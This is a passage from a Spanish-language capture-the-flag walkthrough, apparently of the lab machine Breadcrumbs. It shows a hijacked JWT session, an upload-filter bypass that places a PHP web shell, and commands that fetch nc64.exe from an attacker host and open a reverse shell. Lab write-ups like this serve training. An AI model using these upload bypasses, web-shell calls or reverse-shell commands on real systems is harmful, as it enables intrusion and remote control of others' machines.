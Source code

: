 ![imagen-de-prueba](/assets/img/breadcrumbs/token3.png)
_breadcrumbs_

Copiamos el JWT y el `PHPSESSID` en el navegador y recargamos la pagina.

![imagen-de-prueba](/assets/img/breadcrumbs/paul1.png)
_breadcrumbs_

![imagen-de-prueba](/assets/img/breadcrumbs/paul2.png)
_breadcrumbs_

Ahora estamos como el usuario `paul`, lo primero que voy hacer es intentar subir un archivo que me permita ejecutar comandos, pero antes miremos la peticion con burpsuite.

![imagen-de-prueba](/assets/img/breadcrumbs/paul3.png)
_breadcrumbs_

Vemos que al subir el archivo me cambia la extencion `php` a `zip` enviamos la peticion al repeater, cambiamos el archivo a php.

![imagen-de-prueba](/assets/img/breadcrumbs/paul4.png)
_breadcrumbs_

Verificamos que si subimos el archivo en al ruta `/portal/uploads` 

![imagen-de-prueba](/assets/img/breadcrumbs/upload.png)
_breadcrumbs_

El archivo ya esta en la maquina victima. vamos a probar un comando.

````bash
>http://10.10.10.228/portal/uploads/prueba.php?cmd=ipconfig
`````

![imagen-de-prueba](/assets/img/breadcrumbs/ping.png)
_breadcrumbs_

Tenemos ejecucion de comandos.

# Intrucion 
Vamos a subir `nc64.exe` a la maquina victima para establecer una revershell.

````bash
>http://10.10.10.228/portal/uploads/prueba.php?cmd=powershell.exe wget http://10.10.14.7:8000/nc64.exe -O C:\Windows\Temp\nc64.exe
`````
![imagen-de-prueba](/assets/img/breadcrumbs/shell1.png)
_breadcrumbs_

Ahora ejecutamos el binario.

````bash
>http://10.10.10.228/portal/uploads/prueba.php?cmd=cmd.exe /c C:\Windows\Temp\nc64.exe -e cmd 10.10.14.7 443
`````
![imagen-de-prueba](/assets/img/breadcrumbs/shell2.png)
_breadcrumbs_
